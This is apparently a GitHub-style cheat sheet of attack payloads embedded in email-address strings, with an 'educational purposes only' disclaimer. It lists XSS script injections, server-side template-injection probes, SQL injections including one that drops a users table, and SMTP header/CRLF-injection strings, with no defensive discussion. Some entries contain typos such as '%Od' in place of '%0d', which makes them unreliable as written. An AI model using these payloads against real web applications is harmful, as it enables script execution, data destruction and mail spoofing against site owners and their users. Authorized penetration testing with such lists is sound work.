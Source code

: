 ## Email address inputs as per vulns

### XSS Payloads:

1. `test+(<script> alert(0)</script>)@example.com`
2. `test@example(<script>alert(0)</script>).com`
3. `"<<script>alert(0)</script>"@example.com`

### Template Injection Payloads:

1. `"<%=7*7 %>*@example.com"`
2. `test+(${{7*7}})@example.com`

### SQL Injection Payloads:

1. `''''OR 1=1--''''@example.com`
2. `"mail');DROP TABLE users;--"@example.com`

### Email Header Injection Payloads:

1. `"%Od%0aContent-Length:%200%0d%0a%Od%0a"@example.com`
2. `"recipient@test.com>\r\nRCPT TO:<victim+*]"@test.com`





### Disclaimer 🚨

⚠️ **Disclaimer:** The above content is not owned by me. It has been sourced from the internet for educational purposes only. I do not claim ownership or responsibility for the content provided. Please use it responsibly and in accordance with applicable laws and ethical guidelines.

